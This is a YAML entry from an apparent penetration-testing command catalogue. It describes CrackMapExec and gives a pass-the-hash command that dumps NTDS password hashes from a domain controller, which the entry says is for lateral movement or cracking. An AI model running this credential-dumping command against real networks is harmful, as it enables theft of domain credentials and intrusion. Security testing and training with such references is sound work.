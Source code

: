 ```yaml
---
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will dump the hashes from the DC in order to use them for lateral movement or crack passwords.

  Command Reference:

  	Target IP: 10.10.10.1

  	Username: Administrator

  	Password: password123

  	Hash (-H):  807726fcf9f188adc26eeafd7dc16bb7

command: |
  crackmapexec smb 10.10.10.1 -u Administrator -H 807726fcf9f188adc26eeafd7dc16bb7 --ntds
items:
  - Username
  - Password
  - Hash
services:
  - SMB
attack_types:
  - Enumeration
  - Cracking
OS:
  - Linux
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
  - https://www.hackingarticles.in/credential-dumping-ntds-dit/
---
```


